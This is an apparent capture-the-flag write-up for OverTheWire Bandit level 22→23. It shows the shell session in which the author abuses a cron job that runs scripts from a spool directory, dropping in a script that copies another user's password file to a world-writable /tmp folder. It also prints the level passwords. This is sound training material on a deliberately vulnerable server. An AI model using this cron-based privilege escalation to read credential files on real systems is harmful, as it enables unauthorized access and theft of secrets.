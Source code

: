 # Bandit Level 22 → Level 23

## Previous Flag
<b>0Zf11ioIjMVN551jX3CmStKLYqjk54Ga</b>

## Goal
Use previous password to log in SSH with user <b>bandit23</b> on port <b>2220</b>. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in <b>/etc/cron.d/</b> for the configuration and see what command is being executed.

NOTE: This level requires you to <b>create your own first shell-script</b>
NOTE: Your shell <b>script is removed once executed</b>, so you may want to keep a copy around …

## What I learned
```
mktemp -d:                  not work due to restrictions set by sysAdmin
/var/spool/$myname/foo      folder where script deletes bandit24
/tmp/                       no access, exploit w/ creating subfolder
deeper understanding of cron
```

## Solution
```
@trungdullc ➜ /workspaces/01noobHacker (main) $ ssh bandit23@bandit.labs.overthewire.org -p 2220 ⌨️
bandit23@bandit:/etc/cron.d$ ls ⌨️
behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24  leviathan5_cleanup    otw-tmp-dir
clean_tmp          cronjob_bandit23  e2scrub_all       manpage3_resetpw_job  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 ⌨️
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh ⌨️
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ mkdir /tmp/everyoneaccess && chmod 777 /tmp/everyoneaccess ⌨️
bandit23@bandit:/etc/cron.d$ vi /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ cat /tmp/everyoneaccess/main.sh ⌨️
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/everyoneaccess/pass.txt
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rw-rw-r-- 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ chmod +x /tmp/everyoneaccess/main.sh ⌨️
bandit23@bandit:/etc/cron.d$ ls -la  /tmp/everyoneaccess/main.sh ⌨️
-rwxrwxr-x 1 bandit23 bandit23 178 Aug  1 22:54 /tmp/everyoneaccess/main.sh
bandit23@bandit:/etc/cron.d$ cp /tmp/everyoneaccess/main.sh /var/spool/bandit24/foo/ ⌨️
bandit23@bandit:/tmp/everyoneaccess$ cat pass.txt ⌨️                             # Wait 1 min
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 🔐
```

## Flag
<b>gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8</b>

## Continue
[Continue](/overthewire/2324.md)